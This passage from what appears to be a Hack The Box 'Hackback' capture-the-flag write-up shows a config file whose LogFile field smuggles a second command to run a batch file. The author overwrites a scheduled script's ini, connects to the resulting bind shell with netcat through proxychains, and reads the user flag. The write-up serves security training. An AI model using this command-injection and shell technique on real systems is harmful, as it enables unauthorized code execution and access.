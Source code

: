 ```
[Main]
LifeTime=9999
LogFile=c:\util\scripts\log.txt & c:\programdata\a.bat
Directory=c:\users\hacker
```

I couldn't upload it directly to `c:\util\scripts\clean.ini` so I copied it to `\programdata` first then copied it over from the command line.

```
root@ragingunicorn:~/htb/hackback# ./hackback_write.py "/programdata/clean.ini" clean.ini
```

```
C:\util\scripts>copy c:\programdata\clean.ini clean.ini
copy c:\programdata\clean.ini clean.ini
Overwrite clean.ini? (Yes/No/All): yes
yes
        1 file(s) copied.
```

After a while the batch file is executed (probably some scheduler job set up) and I can connect to the bind shell:

```
# proxychains nc -nv 127.0.0.1 4441
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4441.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
hackback\hacker

C:\Windows\system32>cd \users\hacker\desktop
cd \users\hacker\desktop

C:\Users\hacker\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 00A3-6B07

 Directory of C:\Users\hacker\Desktop

02/09/2019  03:34 PM    <DIR>          .
02/09/2019  03:34 PM    <DIR>          ..
02/09/2019  03:34 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  92,183,654,400 bytes free

C:\Users\hacker\Desktop>type user.txt
type user.txt
92244...
```
